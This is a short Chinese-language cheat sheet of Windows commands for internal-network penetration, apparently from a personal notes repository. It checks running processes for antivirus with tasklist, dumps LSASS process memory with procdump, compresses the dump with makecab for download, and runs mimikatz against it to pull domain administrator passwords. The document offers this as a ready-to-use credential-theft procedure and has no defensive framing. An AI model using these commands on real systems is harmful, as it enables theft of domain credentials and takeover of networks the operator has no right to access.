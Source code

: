 # Intranet Cmd

---

内网渗透常用cmd命令

```
tasklist /svc  # 查看杀软情况

```

远程内存dump，本地使用mimikatz读取dump文件中域管密码

- procdump下载：https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump

```
procdump64.exe -accepteula -ma lsass.exe 1.dmp   # dump内存
makecab .\1.dmp  1.zip                           # windows自带压缩
下载1.zip，本地解压使用：
mimikatz.exe "log" "sekurlsa::minidump 1.dmp" "sekurlsa::logonPasswords full" exit
```

